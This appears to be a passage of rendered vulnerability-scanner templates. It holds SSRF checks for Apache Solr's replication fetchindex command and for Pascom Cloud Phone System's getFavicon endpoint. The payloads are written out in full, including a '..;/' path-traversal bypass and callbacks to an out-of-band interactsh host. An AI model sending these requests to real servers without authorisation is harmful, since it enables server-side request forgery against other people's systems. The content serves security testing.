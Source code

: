 ```
GET /solr/{{core}}/replication/?command=fetchindex&masterUrl=https://interact.sh HTTP/1.1
Host: {{Hostname}}
Accept-Language: en
Connection: close

```

### Matchers

**Type - word**

- words
  1. \<str name="status">OK\</str>
- part - body

### Extractors

**Type - regex**

- internal - True
- name - core
- group - 1
- regex
  1. "name"\:"(.\*?)"

---

# Pascom CPS Server-Side Request Forgery

## Description

- Pascom versions before 7.20 packaged with Cloud Phone System contain a known server-side request forgery vulnerability.
- severity - critical
- tags - cve,cve2021,pascom,ssrf

## Requests

- Method - GET

### URL

- {{BaseURL}}/services/pluginscript/..;/..;/..;/getFavicon?host={{interactsh-url}}

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

